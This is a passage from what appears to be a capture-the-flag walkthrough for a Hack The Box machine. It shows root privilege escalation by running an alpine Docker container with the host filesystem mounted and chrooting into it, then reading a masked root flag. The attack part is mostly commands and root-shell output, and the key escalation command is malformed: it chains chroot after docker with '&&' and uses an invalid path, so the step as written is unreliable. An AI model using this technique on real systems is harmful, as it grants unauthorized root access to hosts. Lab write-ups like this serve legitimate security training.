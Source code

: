First check which images are mounted.

```text-plain
docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   9 months ago   5.53MB
```

The image name is alpine. Lets run the image mounting the host disk and chroot on it.

```text-plain
docker run -it -v /:/host/ alpine && chroot /host/bash                                        
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

We now have a root shell! the root flag is located at /root/root.txt

```text-plain
cat /root/root.txt
HTB{********************************}
```

Congratulations on completing this machine! Happy hunting.
